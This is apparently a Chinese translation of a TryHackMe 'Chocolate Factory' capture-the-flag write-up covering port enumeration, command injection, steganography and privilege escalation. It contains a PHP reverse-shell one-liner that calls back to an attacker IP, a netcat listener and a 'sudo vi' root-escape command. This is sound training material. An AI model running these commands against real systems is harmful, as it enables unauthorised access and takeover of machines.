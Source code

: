 # 巧克力工厂 Tryhackme 报道

> 原文：<https://infosecwriteups.com/chocolate-factory-tryhackme-writeup-897e7e8f255f?source=collection_archive---------1----------------------->

## **这是 Tryhackme room“巧克力工厂”的特写**

![](img/86c4f75c6e0b593d096aec4494fb62af.png)

[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

**房间链接:**[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)
**注:此房免费**

# 列举

![](img/92969c6a439811829fda6c27daf9c1a4.png)

房间链接:[https://tryhackme.com/room/malstrings](https://tryhackme.com/room/malstrings)
注:此房间免费

那么我们这里有什么？

*   端口 21:允许匿名登录的 FTP 和文件“gum_room.jpg ”,因为 nmap 正在为我们执行匿名登录
*   端口 22: SSH
*   端口 80:Apache web 服务器
*   端口 100、106、109、110、111、113、119、125(全部带有相同的服务标志)

在我找到这个盒子后，我意识到这是两条稍微不同的路线。

*   路径 1，
*   路径 2，

# 路径 1

![](img/77a5e6b5fa31d29e70b7f49e10c4b723.png)

我尝试 sql 注入来绕过登录，但运气不好

## Gobuster

```
gobuster dir -u 10.10.208.225 -w directory-list-2.3-medium.txt -t 50 -x .php,.txt,.html
```

![](img/c6580a3f010605b427bc257f211617e4.png)

当《捉鬼敢死队》找到 home.php 时，我看了看它。

![](img/c6ef51286d3295e945c8426ec480ba6d.png)

我们在这个页面上有命令注入

让我们试着得到反向外壳

```
php -r '$sock=fsockopen("10.2.12.26",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

启动 netcat 监听器

```
nc -lvp 4444
```

![](img/5953a13cedfc35b0f304a64e169f32ee.png)![](img/bb2b9bb583ed5539c4f17d28a37cace3.png)

嘣，我们进入了 www-data！

**升级 TTY 外壳**

```
script -qc /bin/bash /dev/null
```

在 home.php，我们看到了一个非常有趣的 key_rev_key 文件。这是一个可执行文件，所以让我们这样做。

好了，我们应该仔细看看这个命令`strings key_rev_key`

![](img/3bdec23bfd082d4d50e70cac74ddbfe6.png)![](img/5016134f170524d623d29a45778ea28c.png)

我们发现了查理密码

厉害！我们拿到了钥匙。提交它并直接转到主目录。

![](img/4207fa00634febb859a03429c56cff00.png)

好的，我们不能读取用户标志，但是我们有一个私有和公共的 SSH 密钥。通过复制`cat teleport`的输出，我们将它保存在攻击者的机器上，并直接与 ssh 重新连接

![](img/f8556369509f5d0f6738ef6206e90a8c.png)![](img/219a9454c87e40ae244e57aafc2eb9ae.png)

我们有用户标志

# 权限提升

![](img/b910760a88a4a42701c9c7cd0d2735a7.png)

我们可以用 root 权限执行 vi，您会问自己这有什么帮助？只需在 vi 中创建新文件并启动二进制文件。

sudo vi 测试并输入`:!bash`，然后回车。或者使用 GTFOBins 的一个衬垫

```
sudo vi -c ':!/bin/sh' /dev/null
```

![](img/573d7cddcdd984552d8a13e71dd23bfa.png)

关于滥用 sudo 权限的更多信息，请查看 [**GTFOBins**](https://gtfobins.github.io/)

去拿根旗！但是什么…什么？文件夹中有一个 **root.py** ,其中包含以下代码

```
from cryptography.fernetimport Fernetimport pyfigletkey=input("Enter the key:  ")f=Fernet(key)encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'dcrypt_mess=f.decrypt(encrypted_mess)mess=dcrypt_mess.decode()display1=pyfiglet.figlet_format("You Are Now The Owner Of ")display2=pyfiglet.figlet_format("Chocolate Factory ")print(display1)print(display2)print(mess)
```

通过使用从二进制文件“key_rev_key”中获得的密钥，我们可以运行 python 脚本，输入我们找到的所需密钥

![](img/c64d9704528cadc08803a07f14b620ce.png)

# 路径 2

```
nmap -sC 10.10.208.225
```

![](img/21f1c3c14e5fa70ff7d06ee69ae6bf7b.png)

我们发现了匿名 ftp

![](img/1ca245be1a4139688ea7ea8719a25741.png)

`steghide`！用空白密码试试我们的运气。

![](img/bbe6e9c1ce4f9dcd915fca4c90e08ef8.png)

是啊！jpg 中嵌入了一个名为 b64.txt 的文件。使用 steghide，我们也可以提取文件。

![](img/0e68f5407a0bb66b8b98356ce1bca65a.png)

不出所料，是 base64 编码的文本

快速解码将为我们带来用户“charlie”的详细信息

```
cat b64.txt | base64 -d
```

![](img/58835d767cc467ad8f171bcf8a9bda30.png)

我在我的机器上复制了 hash，并在上面运行 hashcat。

![](img/e34fadaeef5a03b191687f4c4986abb7.png)

你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)

![](img/09e5bbba06c7688a702aeec8570d243c.png)

如需更多演练，请在出发前继续关注…
…

访问我的其他演练:-

感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
给有类似兴趣的人帮助！+随时欢迎反馈！